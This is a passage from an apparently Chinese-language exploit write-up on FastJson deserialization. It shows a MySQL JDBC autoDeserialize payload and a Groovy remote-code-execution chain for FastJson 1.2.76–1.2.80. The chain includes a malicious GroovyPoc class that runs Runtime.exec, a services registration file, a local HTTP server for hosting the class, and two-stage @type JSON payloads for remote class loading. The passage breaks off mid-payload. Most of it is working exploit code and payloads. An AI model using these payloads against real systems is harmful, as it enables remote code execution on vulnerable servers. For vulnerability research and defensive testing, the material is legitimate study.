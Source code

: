 ```json
                "password": "pass",
                "queryInterceptors": "com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor",
                "autoDeserialize": "true",
                "allowLoadLocalInfile": "true"
            }
        }
    }
}
```
# FastJson <=1.2.80
## Groovy - rce
1.2.76<=FastJson<=1.2.80
```xml
<dependency>  
    <groupId>org.codehaus.groovy</groupId>  
    <artifactId>groovy</artifactId>  
    <version>3.0.9</version>  
</dependency>
```
新建GroovyPoc.java,并编译为GroovyPoc.class(在恶意类的创建下有个问题：在idea中创建并编译为class时不要创建在任一自己的package下，这样服务端在加载该类时可能因为没有这个package导致调用失败)
比如这样是不行的，在/src/main/java目录下创建即可
![image.png](https://cdn.nlark.com/yuque/0/2023/png/26045928/1692846917915-bb6cf80f-cf76-4503-8cdc-005d97d4466f.png#averageHue=%2332302e&clientId=u849ca923-f223-4&from=paste&height=112&id=uf56ec83d&originHeight=140&originWidth=323&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=12053&status=done&style=none&taskId=u4d6e0d66-3dd3-47e5-bd45-72b4ed0d98f&title=&width=258.4)
```java
@GroovyASTTransformation(phase = CompilePhase.CONVERSION)
public class GroovyPoc implements ASTTransformation {
    public GroovyPoc(){  
        try{  
            Runtime.getRuntime().exec("calc");
        }catch (Exception ex){  
  
        }  
    }  
  
    @Override  
    public void visit(ASTNode[] astNodes, SourceUnit sourceUnit) {
  
    }  
```
创建META-INF/services/org.codehaus.groovy.transform.ASTTransformation文件，并写入`GroovyPoc`
![image.png](https://cdn.nlark.com/yuque/0/2023/png/26045928/1692069444801-4ba5e8dc-2f9c-4490-ad4c-2ae644f1c7fe.png#averageHue=%23fdfcfb&clientId=ua12c8ebe-585b-4&from=paste&height=79&id=u77aeafd2&originHeight=99&originWidth=794&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=8101&status=done&style=none&taskId=u3094514d-a0f2-408f-9b6a-68445d64f40&title=&width=635.2)
![image.png](https://cdn.nlark.com/yuque/0/2023/png/26045928/1692069416184-7e11f987-29d1-4aab-9f65-eb7692566bf9.png#averageHue=%23caf9f6&clientId=ua12c8ebe-585b-4&from=paste&height=137&id=u79b7e9af&originHeight=171&originWidth=547&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=14395&status=done&style=none&taskId=uc5512e21-afb2-43e1-be6c-fa39850ff74&title=&width=437.6)
`python -m http.server 9999` 起一个http服务
此Poc仅在真实web环境中可用，因为涉及到两步操作。
```json
//先执行这段JSON指定期望类加入类缓存
{
    "@type":"java.lang.Exception",
    "@type":"org.codehaus.groovy.control.CompilationFailedException",
    "unit":{}
}


//再执行这段JSON远程类加载恶意类
{
    "@type":"org.codehaus.groovy.control.ProcessingUnit",
    "@type":"org.codehaus.groovy.tools.javac.JavaStubCompilationUnit",
    "config":{
        "@type":"org.codehaus.groovy.control.CompilerConfiguration",
```